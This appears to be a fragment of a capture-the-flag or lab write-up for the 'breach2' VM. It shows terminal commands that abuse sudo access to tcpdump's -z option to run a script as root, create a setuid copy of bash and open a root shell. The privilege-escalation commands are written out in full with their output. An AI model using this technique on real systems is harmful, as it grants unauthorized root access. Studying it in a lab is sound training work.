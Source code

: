 ```sh
blumbergh@breach2:/home/bill$ echo '#!/bin/sh' > 1.sh
blumbergh@breach2:/home/bill$ echo 'cp /bin/bash /home/bill/bash' >> 1.sh
blumbergh@breach2:/home/bill$ echo 'chmod +s /home/bill/bash' >> 1.sh
echo 'chmod +s /home/bill/bash' >> 1.sh
blumbergh@breach2:/home/bill$ cat 1.sh
#!/bin/sh
cp /bin/bash /home/bill/bash
chmod +s /home/bill/bash
```

```sh
blumbergh@breach2:/home/bill$ chmod +x 1.sh
blumbergh@breach2:/home/bill$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /home/bill/1.sh -Z root
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1

blumbergh@breach2:/home/bill$ ls
1.sh
bash
blumbergh@breach2:/home/bill$ ls -la
total 1020
drwxr-xr-x 2 blumbergh blumbergh    4096 Feb 15 17:49 .
drwxr-xr-x 5 root      root         4096 Jun 19  2016 ..
-rwxr-xr-x 1 blumbergh blumbergh      64 Feb 15 17:48 1.sh
-rwsr-sr-x 1 root      root      1029624 Feb 15 17:49 bash
blumbergh@breach2:/home/bill$ ./bash -p
./bash -p
id
uid=1001(blumbergh) gid=1001(blumbergh) euid=0(root) egid=0(root) groups=0(root),1001(blumbergh),1004(fin)
whoami
root
```

![image-20250215225125630](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215225125630.png)